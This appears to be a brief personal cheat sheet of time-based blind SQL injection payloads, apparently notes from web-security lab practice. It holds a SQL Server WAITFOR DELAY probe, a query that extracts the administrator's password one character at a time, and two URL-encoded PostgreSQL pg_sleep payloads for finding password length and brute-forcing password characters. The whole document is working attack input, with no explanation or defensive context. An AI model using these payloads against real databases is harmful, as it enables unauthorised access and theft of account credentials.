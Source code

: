 [[postgresql]]
#sql
[[SQLi]]
```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```


Testing one by one character
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```


postgresql
```sql
DmPM58WZKAHfc8BB'%3BSELECT+CASE+WHEN+(username='administrator'+and+length(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+from+users--
```
brut force ony by one char:
```sql
DmPM58WZKAHfc8BB'%3BSELECT+CASE+WHEN+(username='administrator'+and+substring(password,5,1)='a')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+from+users--
```


